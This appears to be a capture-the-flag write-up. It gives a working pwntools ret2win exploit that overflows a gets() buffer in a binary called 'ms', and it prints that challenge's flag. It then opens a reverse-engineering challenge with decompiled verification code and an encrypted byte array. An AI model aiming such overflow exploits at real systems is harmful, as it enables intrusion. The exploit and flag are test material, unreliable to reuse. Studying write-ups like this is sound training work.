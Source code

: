 Just notice that it uses `gets` somewhere in the program and the rest is classic ret2win.

I add a user in advance or we'll crash early I remember.

```python
from pwn import *
import sys
# context.log_level = "debug"

if len(sys.argv) == 1:
    r = process("./ms")
    #gdb.attach(r)
elif len(sys.argv) == 3:
    r = remote(sys.argv[1], sys.argv[2])
else:
    sys._exit(1)
bd = 0x000000000040131b
padding = b'A' * 104

r.sendlineafter(b'> ',b'1')
r.sendlineafter(b': ',b'a')
r.sendlineafter(b': ',b'b')
r.sendlineafter(b': ',b'c')
r.sendlineafter(b'> ',b'3')
r.sendlineafter(b': ',padding + p64(bd))

r.interactive()
```

`FLAG{C0n6r47ul4710n5_0n_cr4ck1n6_7h15_pr09r4m_!!_!!_!}`

## Simply Reverse

Press F5 in IDA.

```c
_BOOL8 __fastcall verify(__int64 a1)
{
  int i; // [rsp+14h] [rbp-4h]

  for ( i = 0; *(_BYTE *)(i + a1); ++i )
  {
    if ( encrypted[i] != ((unsigned __int8)((i ^ *(unsigned __int8 *)(i + a1)) << ((i ^ 9) & 3)) | (unsigned __int8)((i ^ *(unsigned __int8 *)(i + a1)) >> (8 - ((i ^ 9) & 3))))
                       + 8 )
      return 0LL;
  }
  return i == 34;
}
```

And the encrypted array is:

```text
.data:0000000000004020 encrypted       db 8Ah, 50h, 92h, 0C8h, 6, 3Dh, 5Bh, 95h, 0B6h, 52h, 1Bh
.data:0000000000004020                 db 35h, 82h, 5Ah, 0EAh, 0F8h, 94h, 28h, 72h, 0DDh, 0D4h
.data:0000000000004020                 db 5Dh, 0E3h, 29h, 0BAh, 58h, 52h, 0A8h, 64h, 35h, 81h
.data:0000000000004020                 db 0ACh, 0Ah, 64h, 0
```
